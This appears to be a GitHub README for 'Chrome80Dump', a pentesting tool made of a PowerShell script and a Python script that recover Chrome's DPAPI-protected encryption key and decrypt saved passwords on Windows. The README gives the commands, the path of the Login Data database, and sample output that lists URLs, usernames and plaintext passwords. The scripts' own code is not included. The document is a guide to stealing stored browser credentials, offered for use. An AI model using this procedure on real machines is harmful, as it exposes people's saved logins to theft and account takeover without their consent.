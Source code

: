 # Chrome80Dump

A small pair of scripts to dump saved Google Chrome passwords on Windows.

The logic for this changed in Chrome 80, and I wasn't able to find a more recent tool that worked for my use case (pentesting Windows machines while living off the land). So I made my own! One PowerShell script to recover the key, and one Python script for local decryption.

Many thanks to LimerBoy on StackOverflow, whose answer to this question served as the basis for this tool: https://stackoverflow.com/a/61333362

## Setup

You should only have to install the one Python dependency (pycryptodome):

`pip install -r requirements.txt`

## Usage

First, you need to recover the encryption key used to protect the passwords. This itself is encrypted using the Windows DPAPI, so you'll need to be running in the same (user) context as your target.

```
PS> .\get-key.ps1
B47AC088441230478567F441E4B024CCF71A07184E06F072FFD3D14CACCE8C64
```

Then, you can either read the database directly (if your target has a Python installation with the dependencies), or make a local copy and read that.

The usual location for the file is `%LOCALAPPDATA%\Google\Chrome\User Data\Default\Login Data`. Generally Chrome needs to not be running to have access to the database.

```
PS> python .\dump-passwords.py --db chrome.db --key B47AC088441230478567F441E4B024CCF71A07184E06F072FFD3D14CACCE8C64
URL:            https://www.google.com/
Username:       email@website.net
Password:       password123

URL:            https://www.saltybet.com/
Username:       email@website.net
Password:       secure1!
```